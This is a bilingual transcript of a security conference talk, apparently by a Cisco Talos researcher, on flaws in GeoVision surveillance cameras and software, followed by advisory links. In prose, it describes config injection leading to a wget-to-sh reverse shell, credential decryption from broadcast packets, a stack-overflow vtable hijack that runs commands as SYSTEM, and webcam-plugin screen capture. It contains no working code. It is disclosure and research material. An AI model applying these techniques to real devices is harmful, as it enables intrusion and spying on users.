| So, it all starts with cameras, and in particular that model, the GV-LPC2211, which is a license plate capture camera. | 這一切都始於攝影機，特別是這款 GV-LPC2211 型號，這是一台車牌辨識專用的監控攝影機。 |
| And I was like, that sounds like an interesting target. It turns out the firmware on the GeoVision website is completely unencrypted. | 我當時覺得這會是個很有趣的目標。結果發現，GeoVision 官方網站上提供的韌體完全沒有經過加密處理。 |
| If you open it in a hex editor, you can see things like "U-Boot" and "camera." | 如果用十六進位編輯器打開它，可以直接看到「U-Boot」和「camera」等明文字樣。 |
| So, it's going to be very easy to deal with. The next logical step is to use Binwalk to extract the firmware, and it succeeded. | 這意味著分析難度會非常低。下一步顯而易見是使用 Binwalk 來解包韌體，且非常順利地成功了。 |
| You basically obtain the root filesystem of the camera, and you don't even need to buy the physical device to do this. | 基本上此時你就已經拿到了相機的完整根檔案系統，甚至在分析前連實體相機都不用買。 |
| Long story short, the camera is a Linux-based device, and what's interesting for me is that there are multiple network services, including a management interface with multiple CGI endpoints, and some custom protocols. | 長話短說，該相機是基於 Linux 系統運行的設備。最讓我感興趣的是它開放了多個網路服務，包括內置多個 CGI 端點的網頁管理介面，以及一些自定義協議。 |
| One endpoint, the DDNS (Dynamic DNS) settings, is used to configure the client called Easy IP Update, which is an off-the-shelf software. | 其中一個 CGI 端點是 DDNS（動態 DNS）設定，用於配置內建的一款名為 Easy IP Update 的現成第三方用戶端軟體。 |
| The parameters are saved into a configuration file. Since there is no input sanitization, if you put line breaks in your username or host name, you can inject custom configuration entries. | 這些配置參數會被直接寫入配置文件中。由於輸入欄位完全沒有進行安全過濾，如果我們在主機名稱或使用者名稱中插入換行符，就能向設定檔中注入自定義的配置條目。 |
| The easyipupdate software supports an "execute command" argument that executes a shell command upon successful binding. | 而 `easyipupdate` 軟體原生支持一個名為 `execute command` 的參數，允許在更新綁定成功後執行特定的系統命令。 |
| To exploit this, an attacker can create a fake DNS server that returns a successful IP binding status. | 為了實現利用，攻擊者可以在本地搭建一個虛假 DNS 伺服器，對相機返回一個「成功更新」的回覆。 |
| When the Easy IP Update client queries it, it registering success and immediately triggers the command we injected into the config file. | 當 Easy IP Update 客戶端向其發送請求並判定更新成功後，就會立即執行我們預先注入到配置文件中的命令。 |
| Since character space is limited in the web field, we can use `wget` to download our reverse shell payload and pipe it to `sh`, achieving Remote Code Execution (RCE). | 由於網頁欄位的輸入長度受限，我們可以使用最精簡的命令，利用 `wget` 從遠端下載反彈 Shell 腳本並管道輸送至 `sh` 運行，從而成功奪取遠端代碼執行（RCE）權限。 |
| Next, let's look at the GV-IP Device Utility. It's a configuration tool that sends privileged commands, but remarkably, it broadcasts all commands over UDP. | 接下來看 GV-IP Device Utility。這是一個用於配置相機的桌面工具，需要發送特權控制命令。令人驚訝的是，它居然把所有命令都透過 UDP 廣播發送。 |
| One command (0x005) reboots the device. It sends an encrypted username and password, but the developers decided to save the Blowfish encryption key right inside the packet capture! | 其中一個重啟設備的指令（0x005）會發送加密後的使用者名稱與密碼，但開發者卻選擇將 Blowfish 加密金鑰直接存放在發送的封包中！ |
| So, we have the encryption key and the ciphertext right in the same packet broadcasted to everyone. Standard Blowfish decryptors failed, so I used OpenAI Codex. | 這意味著我們可以在廣播給所有人的同一個封包中，同時拿到密鑰和密文。一開始用標準的 Blowfish 函式庫解密宣告失敗，於是我決定求助於 OpenAI Codex。 |
| I asked Codex to write a Unicorn emulation script to run the exact binary instructions. | 我讓 Codex 編寫一個 Unicorn 模擬引擎腳本，來直接執行二進位二進位檔案中的加密指令。 |
| Codex generated a working Unicorn script and revealed that the key block was standard Blowfish but processed in Little-Endian byte order. | Codex 成功生成了可用的 Unicorn 腳本，並揭示了該加密本質上是標準的 Blowfish 演算法，只是在記憶體中採用了小端序（Little-Endian）排列。 |
| Swapping the bytes allowed us to instantly decrypt the administrative credentials broadcasted over the network. | 只要調整位元組順序，我們就能瞬間還原並竊聽到在網路上廣播的管理員明文密碼。 |
| Now, let's move on to the Video Management Software, GV-VMS. It runs a Webcam Server designed for streaming video feeds. | 現在我們將目光轉向其影像管理軟體 GV-VMS。它運行了一個專用於串流影像的網頁伺服器（Webcam Server）。 |
| In Process Explorer, we can see it runs as `SYSTEM` privilege, and critical DLLs are compiled without ASLR. This makes exploiting predictable memory addresses incredibly easy. | 透過 Process Explorer 觀察，該伺服器在 Windows 中是以最高權限的 `SYSTEM` 運行，且核心 DLL 模組在編譯時完全沒有啟用 ASLR，這使得對預測記憶體位址進行漏洞攻擊變得異常簡單。 |
| When decoding HTTP Basic Authentication header, the server decodes the Base64 input and copies it into a 256-byte stack buffer without bounds checking, leading to an unauthenticated stack overflow. | 當解析 HTTP Basic 驗證標頭時，伺服器會將 Base64 解碼後的數據，在沒有進行任何邊界檢查的情況下，複製到一個僅有 256 位元組的堆疊緩衝區中，引發了未授權的堆疊溢位漏洞。 |
| Although stack cookies are present, we can bypass them because right next to the buffer is an object pointer for the Server App. | 雖然二進位檔案啟用了 Stack Cookie 防護，但我們可以繞過它，因為在緩衝區下方存放著一個指向 Server App 物件的指標。 |
| Before the function exits and checks the cookie, it reads this pointer, resolves the vtable, and calls a virtual function. | 在函數執行完畢並觸發 Cookie 驗證前，程式碼會讀取這個指標，解析虛擬函數表（vtable）並調用其中的虛擬函數。 |
| By overflowing the stack, we overwrite this pointer to redirect to a fake vtable at a static address, hijacking the control flow to call `ShellExecuteA` and execute commands as `SYSTEM`. | 藉由溢位堆疊，我們得以覆寫該指標，將其指向一個已知靜態位址的偽造虛擬函數表，從而實現劫持控制流，呼叫 `ShellExecuteA` 並以 `SYSTEM` 最高權限執行任意系統命令。 |
| If it crashes, it automatically restarts within 10 seconds. So you have infinite attempts. | 即使漏洞利用過程中程序崩潰，它也會在 10 秒內自動重啟，這意味著攻擊者擁有無限次的攻擊嘗試機會。 |
| We also analyzed the Web Player plugin, which runs a local WebSocket server to stream camera feeds. | 我們還分析了 Web Player 瀏覽器插件，它在本機上運行了一個 WebSocket 伺服器來播放監控影像。 |
| There is no origin verification. Any malicious website visited by a user can connect to localhost and send commands. | 該 WebSocket 伺服器完全沒有進行來源（Origin）驗證。任何用戶訪問的惡意網站，都能隨意連線至本機 WebSocket 並發送控制指令。 |
| We found 12 functions suffering from out-of-bounds index bugs. Writing individual reports and PoCs for all of them was too tedious, so I automated the pipeline using AI. | 我們發現了多達 12 個存在陣列索引越界（Out-of-Bounds Index）漏洞的 API 函數。手動為每一個端點撰寫報告與測試 PoC 太過繁瑣，於是我用 AI 實作了全自動化漏洞挖掘流水線。 |
| I wrote an Model Context Protocol (MCP) server that bridged IDA Pro via IDA Python with Codex. | 我寫了一個 Model Context Protocol (MCP) 伺服器，將 IDA Pro 的分析引擎（透過 IDA Python 腳本）與 OpenAI Codex 連接。 |
| Codex analyzed the decompiled logic, flagged the vulnerability, and wrote the browser-based HTML PoC files. | Codex 自動讀取反編譯代碼，標記出越界缺陷，並自動編寫了基於網頁的 HTML 格式測試 PoC 檔案。 |
| We then used Playwright to automatically visit the pages, trigger the crashes, monitor PID shifts, and capture PCAPs for security analysts. | 我們隨後調用 Playwright 自動化瀏覽器工具訪問網頁，觸發程式崩潰，檢測 PID 進程標識符的變化，並自動生成封包擷取檔（PCAP）給分析人員。 |
| We also found a logic bug: `get_screen_capture`. Any external page via the WebSocket can call it with a wildcard title to capture and retrieve screenshots of the user's desktop, turning the surveillance system into a spy tool. | 我們還發現了一個邏輯漏洞：`get_screen_capture`（獲取螢幕截圖）API。任何外部網站都能透過 WebSocket 連線，使用通配符匹配視窗標題，隨意擷取並帶走用戶的 Windows 桌面截圖，將這套安全監控系統徹底變成了駭客的間諜監聽工具。 |
| Yesterday I mentioned the bug-report apocalypse, but even smaller vendors are facing the same automated issues. Use AI to automate the boring stuff while keeping human ingenuity in the loop. Thank you! | 昨天我提到了「漏洞申報末日」，如今即使是小型軟體開發商也面臨同樣的自動化漏洞挖掘衝擊。讓我們學會駕馭 AI 來自動化處理繁雜枯燥的工作，同時將人類特有的創造力保留在核心環節中。謝謝大家！ |

---

## Resources, Repositories & Contacts / 資源、程式碼庫與聯絡方式

> All links in this section were checked against their live pages unless explicitly tagged `(unverified)`. Professional presence only — no personal contact details are listed.
> 除明確標註 `(unverified)` 者外，本節所有連結皆經實際查證。僅列公開的專業聯絡管道，不含任何個人聯絡資訊。

### Speaker & Contact / 講者與聯絡方式

| Channel / 管道 | Link / 連結 | Notes / 備註 |
| :--- | :--- | :--- |
| Talos author page / Talos 作者頁 | https://blog.talosintelligence.com/author/philippe/ | Primary professional publication channel / 主要專業發表管道 |
| GitHub | https://github.com/philippelaulheret | Personal public repositories / 個人公開程式碼庫 |
| X (Twitter) | https://x.com/phlaul | — |
| LinkedIn | https://www.linkedin.com/in/philippe-laulheret-094a5315 | The URL DEF CON 33 itself publishes / DEF CON 33 官方公布之網址 |
| DEF CON 33 speakers / DEF CON 33 講者頁 | https://defcon.org/html/defcon-33/dc-33-speakers.html | Conference speaker listing / 大會講者名單 |

* **Affiliation / 所屬單位:** Cisco Talos — https://blog.talosintelligence.com/
* No personal email address or phone number is published here by design. Vulnerability correspondence goes through Cisco Talos' disclosure process, not an individual inbox.
  基於原則，本文不刊載任何個人電子郵件或電話。漏洞通報請循 Cisco Talos 的正式揭露流程，而非個人信箱。

### Code & Repositories / 程式碼庫

* **Speaker's own GitHub / 講者本人的 GitHub:** https://github.com/philippelaulheret
* No public GeoVision proof-of-concept repository from the speaker was located. The advisories below are the authoritative technical record.
  未發現講者公開的 GeoVision PoC 程式碼庫；下方的 Talos 資安公告即為權威技術紀錄。
* **Related community tooling / 社群相關工具 — NOT the speaker's stack / 非講者的工具組:** see *Further Reading* below.

### Papers & Publications / 論文與出版品

**14 Talos advisories / 37 CVEs credited on GeoVision. / 講者名下共 14 份 Talos 資安公告、37 個 GeoVision CVE。**

Roundup post / 彙整文章: https://blog.talosintelligence.com/wolfssl-vulnerabilities/ (2026-07-09)

Confirmed advisory IDs — URL pattern `https://talosintelligence.com/vulnerability_reports/<ID>` / 已確認之公告編號，網址格式如左:

| Advisory ID / 公告編號 | Report URL / 公告網址 |
| :--- | :--- |
| TALOS-2026-2411 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2411 |
| TALOS-2026-2379 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2379 |
| TALOS-2026-2377 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2377 |
| TALOS-2026-2375 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2375 |
| TALOS-2026-2373 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2373 |
| TALOS-2026-2370 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2370 |
| TALOS-2026-2369 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2369 |
| TALOS-2026-2333 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2333 |
| TALOS-2026-2329 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2329 |
| TALOS-2026-2328 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2328 |
| TALOS-2026-2327 | https://talosintelligence.com/vulnerability_reports/TALOS-2026-2327 |
| TALOS-2025-2332 | https://talosintelligence.com/vulnerability_reports/TALOS-2025-2332 |
| TALOS-2025-2326 | https://talosintelligence.com/vulnerability_reports/TALOS-2025-2326 |
| TALOS-2025-2322 | https://talosintelligence.com/vulnerability_reports/TALOS-2025-2322 |

### Talk & Slides / 演講資料

* **HITCON 2026 agenda index / HITCON 2026 議程總表:** https://hitcon.org/2026/en-US/agenda/
* **This session's agenda entry / 本場次議程頁 `(unverified)`:** the HITCON site returns HTTP 403 to automated fetches and its agenda view serves only the current conference day, so the per-session URL for this talk could not be resolved. Search the agenda index above for "GeoVision" or the speaker's name to locate it.
  HITCON 網站對自動化抓取回傳 HTTP 403，且議程頁僅顯示當日場次，因此無法取得本場次的個別議程網址。請於上方議程總表中搜尋「GeoVision」或講者姓名。
* **Slides / 簡報 `(unverified)`:** no published slide deck for this session was located. HITCON historically posts materials to its agenda pages after the event.
  未找到本場次的公開簡報檔。HITCON 通常於會後將資料補上議程頁。
* **Talos speaker profile interview / Talos 講者專訪:** https://blog.talosintelligence.com/breaking-things-to-keep-them-safe-with-philippe-laulheret/

### Further Reading / 延伸閱讀

#### GeoVision exploitation in the wild / GeoVision 遭實際利用之背景

* **CISA KEV catalog / CISA 已知遭利用漏洞目錄:** CVE-2024-11120 and CVE-2024-6047 (GeoVision devices, added 2025-05-07) — https://www.cisa.gov/known-exploited-vulnerabilities-catalog
* **Akamai — Mirai botnet actively exploiting GeoVision IoT devices / Akamai 研究：Mirai 殭屍網路實際利用 GeoVision 裝置:** https://www.akamai.com/blog/security-research/active-exploitation-mirai-geovision-iot-botnet
* **CISA ICS advisory ICSA-23-199-05 / CISA 工控資安公告:** https://www.cisa.gov/news-events/ics-advisories/icsa-23-199-05

#### Related tooling — LLM-assisted reverse engineering / 相關工具：LLM 輔助逆向工程

> **NOT the speaker's tooling / 非講者的工具組.** These are third-party and other-author resources listed only because these notes originally, and incorrectly, attributed them to the speaker. See the correction callout at the top of this file.
> 以下皆為第三方或他人著作的資源，列於此處僅因本文原稿曾誤將其歸屬於講者。詳見文首校訂說明。

* **"Using an LLM as a reverse engineering sidekick" — Cisco Talos, by *Guilherme Venere* (not Laulheret) / 作者為 Guilherme Venere，非 Laulheret:** https://blog.talosintelligence.com/using-llm-as-a-reverse-engineering-sidekick/
* **`ida-pro-mcp` — third-party MCP server for IDA Pro / 第三方 IDA Pro MCP 伺服器:** https://github.com/mrexodia/ida-pro-mcp
* **`playwright-mcp` — Microsoft's MCP server for Playwright / 微軟的 Playwright MCP 伺服器:** https://github.com/microsoft/playwright-mcp

#### Vendor / 廠商

* **GeoVision (device and software vendor) / GeoVision 官方網站:** https://www.geovision.com.tw/

---
